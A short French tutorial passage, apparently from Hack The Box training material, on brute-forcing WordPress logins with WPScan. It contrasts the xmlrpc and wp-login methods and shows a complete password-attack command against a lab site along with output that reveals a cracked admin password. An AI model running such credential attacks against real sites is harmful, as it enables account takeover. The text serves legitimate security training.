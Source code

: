Attaquer les utilisateurs de WordPress
======================================

* * * * *

Utilisateur WordPress Bruteforce
--------------------------------

WPScan peut être utilisé pour forcer brutalement les noms d'utilisateur et les mots de passe. Le rapport d'analyse a renvoyé trois utilisateurs enregistrés sur le site Web : `admin`, `roger`, et `david`. L'outil utilise deux types d'attaques par force brute de connexion, `xmlrpc`et `wp-login`. La `wp-login`méthode tentera de forcer brutalement la page de connexion WordPress normale, tandis que la `xmlrpc`méthode utilise l'API WordPress pour effectuer des tentatives de connexion via `/xmlrpc.php`. La `xmlrpc`méthode est préférée car elle est plus rapide.

#### WPscan-XMLRPC

  WPscan-XMLRPC

```
dsgsec@htb[/htb]$ wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com

[+] URL: http://blog.inlanefreight.com/
[+] Started: Thu Apr  9 13:37:36 2020
[+] Performing password attack on Xmlrpc against 3 user/s

[SUCCESS] - admin / sunshine1
Trying david / Spring2016 Time: 00:00:01 <============> (474 / 474) 100.00% Time: 00:00:01

[i] Valid Combinations Found:
 | Username: admin, Password: sunshine1
```
